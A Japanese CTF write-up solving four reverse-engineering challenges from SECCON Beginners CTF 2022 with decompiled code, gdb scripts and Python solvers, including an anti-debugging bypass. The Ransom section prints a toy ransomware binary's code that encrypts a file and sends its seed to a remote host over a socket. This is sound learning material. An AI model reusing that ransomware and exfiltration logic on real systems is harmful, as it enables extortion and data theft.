







2022/06/04から開催されていた[SECCON Beginners CTF 2022](https://score.beginners.azure.noc.seccon.jp/)に参加してました。

今年もRevのみのチャレンジでしたがとりあえず全完することができました。



全体的にちゃんとリバースエンジニアリングする問題だった印象で、非常に楽しく解くことができました。

今回も面白かった問題についてWriteupを書いていきます。

<!-- omit in toc -->
## もくじ
- [WinTLS(Rev)](#wintlsrev)
- [Recursive(Rev)](#recursiverev)
- [Ransom(Rev)](#ransomrev)
- [please_not_debug_me(Rev)](#please_not_debug_merev)
- [まとめ](#まとめ)

## WinTLS(Rev)

GUIで受け取ったFlag文字列が正解かどうかを検証するシンプルなPEバイナリが渡されます。

入力を検証する箇所をデコンパイルしてみると、以下のような関数になっていました。

``` c
bool check(char *param_1)
{
  int iVar1;
  char *_Str1;
  
  _Str1 = (char *)TlsGetValue(TLS);
  iVar1 = strncmp(_Str1,param_1,0x100);
  return iVar1 != 0;
}
```

ここでは、`TlsGetValue`関数で取得したTLS領域の文字列と入力値を比較してFlagが正解かどうかを判別しているようです。

TLSとは、スレッドローカルストレージという各スレッドごとに固有の領域を指します。

参考：[スレッドローカルストレージ (TLS) を理解する - Windows 徹底解説 - Web/DB プログラミング徹底解説](https://www.keicode.com/windows/win19.php)

参考：[TlsGetValue function (processthreadsapi.h) - Win32 apps | Microsoft Docs](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-tlsgetvalue)

TLSに値を格納するためには`TlsSetValue`という関数を使用するようなので、この関数の呼び出し箇所を確認してみました。

すると、以下の2箇所で`TlsSetValue`関数が呼び出されていました。





この2つの関数の呼び出し元をたどってみると、プログラムが起動した後に以下の箇所で2つのスレッドを作成しているのが確認できました。

``` c
CreateThread((LPSECURITY_ATTRIBUTES)0x0,0,LPTHREAD_START_ROUTINE)&t1,atStack312,0,&DStack36);
CreateThread((LPSECURITY_ATTRIBUTES)0x0,0,LPTHREAD_START_ROUTINE)&t2,atStack312,0,&DStack36);
```

この`LPTHREAD_START_ROUTINE`の処理でそれぞれのスレッドのTLSに別々の値を格納しているようです。

それぞれのスレッドでは、入力値に対して異なる処理を実施しており、その両方の処理をクリアできる入力値がFlagになるようです。

具体的には、入力値を先頭から順に検証し、`i % 3 == 0 or i % 5 == 0`の条件を満たす文字を削除するか抽出するかの違いでした。

というわけで、この処理をPythonで書き起こした後にそれを元に戻すような以下のSolverを作成し、Flagを取得することに成功しました。

``` python
"""
flag = ""
k = 0
for (i = 0; (i < 0x100 && (word = flag[i]), word != '\0')); i = i + 1) {
    if (((int)i % 3 == 0) || ((int)i % 5 == 0)) {
        j = k;
        k = k + 1;
        result[j] = word;
    }
}
result[k] = 0;
"""
# TlsSetValue(TLS,"c4{fAPu8#FHh2+0cyo8$SWJH3a8X");
# TlsSetValue(TLS,"tfb%s$T9NvFyroLh@89a9yoC3rPy&3b}");

# ===========================================

a = list(r"c4{fAPu8#FHh2+0cyo8$SWJH3a8X")
b = list(r"tfb%s$T9NvFyroLh@89a9yoC3rPy&3b}")
flag = ""
for i in range(len(a) + len(b)):
    if i % 3 == 0 or i % 5 == 0:
        flag += a.pop(0)
    else:
        flag += b.pop(0)
print(flag)
# ctf4b{f%sAP$uT98Nv#FFHyrh2o+Lh0@8c9yoa98$ySoCW3rJPH3y&a83Xb}
```

## Recursive(Rev)

入力値がFlagにマッチするかを検証するELFバイナリが与えられます。

Ghidraでデコンパイルをしてみると、問題名の通りcheck関数をひたすら再帰的に呼び出しているようです。



関数の処理をリバーシングするのに若干手間取りましたが、Pythonで書き起こした結果以下のようになりました。

入力値として与えられた文字列を半分に切り分けながら再帰的に呼び出ししていき、最終的に引数に与えられた文字列の長さが1になったタイミングで、その文字がデータセクション内のテーブルの特定の位置の文字と一致するかで入力値を検証していたようです。

``` python
table = ["DATA"]

def check(data, i):
    l = len(data)
    if l == 1:
        if chr(table[i]) == "Flagの文字"
            print(chr(table[i]), end="")
            return 1
    else:
        k = int(l / 2)
        nd = data[0:k]
        if check(nd, i) == 1:
            return 1
        nd = data[k:l-k]
        if check(nd, k*k+i) == 1:
            return 1

    return 0

check(flag, 0)
```

解法はとりあえず先頭文字から順に特定していくブルートフォースが簡単だと思ったのですが、総当たりの検証を自動化するのが面倒だったので以下のようなスクリプトで1文字ずつ手動で特定していきました。

``` python
# gdb -x run.py
import gdb

BINDIR = "/home/ubuntu/Downloads"
BIN = "recursive"
gdb.execute('file {}/{}'.format(BINDIR, BIN))
gdb.execute('b *{}'.format("0x5555555552bf"))

with open("input.txt", "w") as f:
    f.write("ctf4b{r3curs1v3_c4l1_1s_4_v3ry_u53fu1" + "A"*(38-37))

gdb.execute('run < {}'.format("input.txt"))

for i in range(0x26):
    try:
        gdb.execute('continue')
        gdb.execute('xinfo register edx')
    except:
        gdb.execute('quit')
```

このスクリプトを編集しながら38回実行するとFlagを取得することができます。

## Ransom(Rev)

ランサムウェアに暗号化されたファイルを手動で複製する問題でした。

リアルマルウェアで遊んでいる感じでかなり楽しかったです。

問題バイナリをデコンパイルすると以下のようなコードが抽出できました。

ざっくり眺めてみると、ランダムに生成されたseedを使って生成した暗号鍵で機密ファイルを暗号化し、最後にseedを外部に送信するというような処理をしているようです。

``` c
if (__stream == (FILE *)0x0) {
  puts("Can\'t open file.");
  uVar2 = 1;
}
else {
pcVar3 = fgets(text,0x100,__stream);
if (pcVar3 != (char *)0x0) {
    sVar4 = strlen(text);
    enced = malloc(sVar4 << 2);
    FUN_55555555557f(__buf,text,enced);
    __stream_00 = fopen("ctf4b_super_secret.txt.lock","w");
    if (__stream_00 == (FILE *)0x0) {
    puts("Can\'t write file.");
    uVar2 = 1;
    goto LAB_55555555591f;
    }
    k = 0;
    while( true ) {
    sVar4 = strlen(text);
    if (k == sVar4) break;
    fprintf(__stream_00,"\\x%02x",(ulong)*(byte *)(k + (long)enced));
    k = k + 1;
    }
    fclose(__stream_00);
}
fclose(__stream);
__fd = socket(2,1,0);
if (__fd < 0) {
    perror("Failed to create socket");
    uVar2 = 1;
}
else {
    local_128._0_2_ = 2;
    local_124 = inet_addr("192.168.0.225");
    local_128._2_2_ = htons(0x1f90);
    iVar1 = connect(__fd,(sockaddr *)local_128,0x10);
    if (iVar1 == 0) {
    write(__fd,__buf,0x11);
    uVar2 = 0;
    }
    else {
    perror("Failed to connect");
    uVar2 = 1;
    }
}
```

Flagの暗号化に使用されたseedは与えられたpcapファイルから取得できたので、次は暗号化のロジックを特定していくことにしました。

seedを元に暗号化を行う箇所を見てみると、`0x555555555381`の関数でseedを元に暗号鍵を生成し、その鍵を使ってFlagを暗号化していることがわかりました。



`0x555555555381`の関数で生成される暗号鍵はseedの値に付き一意になるので、gdbを使って`0x555555555381`の関数に与えられるseedの値を改ざんし、その出力結果をメモリからキャプチャすることで簡単に取得することができました。

``` python
# gdb -x run.py
import gdb

BINDIR = "/home/ubuntu/Downloads"
BIN = "ransom"

gdb.execute('file {}/{}'.format(BINDIR, BIN))
gdb.execute('b *{}'.format("0x5555555555b9"))
gdb.execute('b *{}'.format("0x5555555555e6"))
gdb.execute('run')

seed = "rgUAvvyfyApNPEYg"
for i, c in enumerate(seed):
    target = hex(0x5555555592a0 + i)
    print('set {}{} = {}'.format("{char}", target, hex(ord(c))))
    gdb.execute('set {}{} = {}'.format("{char}", target, hex(ord(c))))

gdb.execute('x/s 0x5555555592a0')
gdb.execute('continue')

i = gdb.inferiors()[0]
mem = i.read_memory(0x7fffffffdaa0, 264)
key = mem.tobytes()
print(key)
```

暗号鍵が特定できたので、次は`FUN_55555555545e`で行われている暗号化のプロセスをリバーシングしていきます。

デコンパイル結果は以下のようになっていました。

``` c
undefined8 FUN_55555555545e(long param_1,char *param_2,long param_3)

{
  size_t sVar1;
  uint local_24;
  uint local_20;
  ulong local_18;
  
  local_24 = 0;
  local_20 = 0;
  local_18 = 0;
  sVar1 = strlen(param_2);
  for (; local_18 < sVar1; local_18 = local_18 + 1) {
    local_24 = local_24 + 1 & 0xff;
    local_20 = *(byte *)(param_1 + (int)local_24) + local_20 & 0xff;
    FUN_555555555349(param_1 + (int)local_24,(int)local_20 + param_1);
    *(byte *)(local_18 + param_3) =
         param_2[local_18] ^
         *(byte *)(param_1 +
                  (ulong)(byte)(*(char *)(param_1 + (int)local_20) +
                               *(char *)(param_1 + (int)local_24)));
  }
  return 0;
}
```

これをPythonで書き直すとだいたいこんな感じになります。

``` python
A = 0;
B = 0;
i = 0;
sVar1 = strlen(flag);

for (; i < sVar1; i = i + 1):
    A = A + 1 & 0xff;
    B = key + A + B & 0xff
    swap(key[A], key[B])
    encrypted[i] = flag[i] ^ (key[(key[B] + key[A]) & 0xff])
```

これで暗号化のロジックがわかったので、あとはこれを復号するために以下のようなSolverを作成し、Flagを取得することができました。

``` python
encrypted = [ b for b in b'\x2b\xa9\xf3\x6f\xa2\x2e\xcd\xf3\x78\xcc\xb7\xa0\xde\x6d\xb1\xd4\x24\x3c\x8a\x89\xa3\xce\xab\x30\x7f\xc2\xb9\x0c\xb9\xf4\xe7\xda\x25\xcd\xfc\x4e\xc7\x9e\x7e\x43\x2b\x3b\xdc\x09\x80\x96\x95\xf6\x76\x10']
key = [b for b in b'h\x1d\x8bu}j\xe90\x14\xe7\x9b\xa3Ps!\x7f\x04y\x86)\xe2\x01\xd8U\xe6]\xc43L\x10-\x05\xc0\xc3+\x15\x03\xa4\xeb\x9e\xdd\x8aE\xe5\x02H\x93,VB$[\x96\x876\xa0\x84\x1f\xa8\xfb:\xe1\x07 \xf2\x9a\xc2\x80o\x8cm\x1ext\xcf\xc7cd\x9c\xcc\xd0\x0fTQ\xd6\xdf\x92\x9f\xed\x00\xa7\xf9"\xff\x0c\xc1(\xcd\x8fW\xf6\x99z\xfe\t\xaa\xe8C\x94\x06\xb9\xb87\xef\xf0nD\x8d&\xe3\x85\x08\xadK;\xd2#\x88\xb5Z1\xc6\x984\xe0\xfc\xb3ek\x82\xde\x91\x97%\x19\xea\x95\xa5\xb2\x8e\xa1N\xba\xfd\xb6\x81\xc9\xab\r\xda\xd3\xbb<\xf4\xd9\xbf\x11w\x9d\xe4\xbd\xfa\x1c\xbcF{\xf7\\\xb4\n\xd1a\xaeA8\xa2\xdb\xdc\x18\xcb\xc8\xee\x90\xc5\x13\x0b\xca\xce\x1ar\xd7Y\xf1Sf\x16\xf8\xb1\xa9_qMg\x83\x89\xf5\xd5\xacI*\xf3~=\x12>b\xbe\xb0@2R\x0e?\xecX\xaf\xb7.J`5G\'|\x17O\xa69vi\xd4pl\x1b/^@YUUUU\x00\x00']
flag = ["X" for i in range(50)]
# print(len(encrypted))
# print(len(base))

A = 0
B = 0
for i in range(50):
    A = (A + 1) & 0xff
    B = (key[A] + B) & 0xff

    tmp = key[A]
    key[A] = key[B]
    key[B] = tmp

    # encrypted[i] = ord(flag[i]) ^ (key[(key[B] + key[A])& 0xff])
    flag[i] = chr(encrypted[i] ^ (key[(key[B] + key[A])& 0xff]))

print("".join(flag))
# print(encrypted)
# ctf4b{rans0mw4re_1s_v4ry_dan9er0u3_s0_b4_c4refu1}
```

## please_not_debug_me(Rev)

最後の問題はHard問題でしたが、体感的にはMediumのRansomと同じくらいな感じでした。

問題バイナリは入力されたFlagを検証するプログラムなのですが、パックされたマルウェアのような挙動でアンチデバッグ機能もついたバイナリでした。

大雑把な解法は以下のようになります。

- バイナリのデータセクションに暗号化されたペイロードを復号してELFファイルとして抽出する
- Ghidraを使ってパッチを当てて、抽出したELFファイルのアンチデバッグを解除する
- gdbを使ってFlag検証時の暗号化ロジックを特定してSolverを作成する



まず、バイナリのデータセクションに暗号化されたペイロードは以下のスクリプトで復号しました。

復号したデータはリトルエンディアン記法で別のバイナリファイルとして保存しています。

``` python
binary = [<データセクションから抽出したバイナリ>]

for i in range(len(binary)):
    binary[i] = binary[i] ^ 0x16

with open("revert.bin", "wb") as bin:
    for i in range(len(binary)):
        bin.write(binary[i].to_bytes(1,"little"))
```

ここで抽出したバイナリをデコンパイルすると、以下のようなアンチデバッグのコードが埋め込まれていたため、Ghidraのパッチ機能を使って条件分岐を改ざんしました。

``` c
long lVar1;
ulong uVar2;
uint local_c;

local_c = 0;
lVar1 = ptrace(PTRACE_TRACEME,0,1,0);
if (lVar1 == 0) {
  local_c = 2;
}
uVar2 = ptrace(PTRACE_TRACEME,0,1,0);
if (uVar2 == 0xffffffffffffffff) {
  local_c = local_c * 3;
  uVar2 = (ulong)local_c;
}
if (local_c != 6) {
  fwrite("No bugs here so don\'t debug me!\n",1,0x20,stderr);
                /* WARNING: Subroutine does not return */
exit(1);
}
```

↓ 改ざん後



これは、straceやptraceのアタッチが複数同時にできないことを利用した確認方法です。

詳しくは以下が参考になります。

参考：[Sebastian Auberger's Blog | Linux Anti Debugging](https://seblau.github.io/posts/linux-anti-debugging)

ここで改ざんしたバイナリを動的解析することで、暗号化されたFlagと鍵をメモリから抽出することができます。

また、暗号化の方法がRC4であることも確認できます。

そのため、抽出したデータを元にRC4を復元するとFlagが取得できました。

``` python
key = [0x62, 0x30, 0x36, 0x61, 0x61, 0x32, 0x66, 0x35,
0x61, 0x35, 0x62, 0x64, 0x66, 0x36, 0x63, 0x61,
0x61, 0x37, 0x31, 0x38, 0x37, 0x38, 0x37, 0x33,
0x34, 0x36, 0x35, 0x63, 0x65, 0x39, 0x37, 0x30,
0x64, 0x30, 0x34, 0x66, 0x34, 0x35, 0x39, 0x64]

encrypted = "".join([chr(c) for c in [ 0x27, 0xd9, 0x65, 0x3a, 0x0f, 0x25, 0xe4, 0x0e, 0x81, 0x8a, 0x59, 0xbc, 0x33, 0xfb, 0xf9, 0xfc, 0x05, 0xc6, 0x33, 0x01, 0xe2, 0xb0, 0xbe, 0x8e, 0x4a, 0x9c, 0xa9, 0x46, 0x73, 0xb8, 0x48, 0x7d, 0x7f, 0x73, 0x22, 0xec, 0xdb, 0xdc, 0x98, 0xd9, 0x90, 0x61, 0x80, 0x7c, 0x6c, 0xb3, 0x36, 0x42, 0x3f, 0x90, 0x44, 0x85, 0x0d, 0x95, 0xb1, 0xee, 0xfa, 0x94, 0x85, 0x0c, 0xb9, 0x9f, 0x00 ]])

flag = RC4(encrypted, key)
# ctf4b{D0_y0u_kn0w_0f_0th3r_w4y5_t0_d3t3ct_d36u991n9_1n_L1nux?}
```

## まとめ

sec4bは今年で3回目の参加ですが、Rev問については[去年](/ctf-sec4b-2021)よりだいぶ余裕をもって解けるようになったかなぁと感じました。

ただsec4b以上のレベルの問題だと結構行き詰ることが多いのでもっと精進しないとですね。


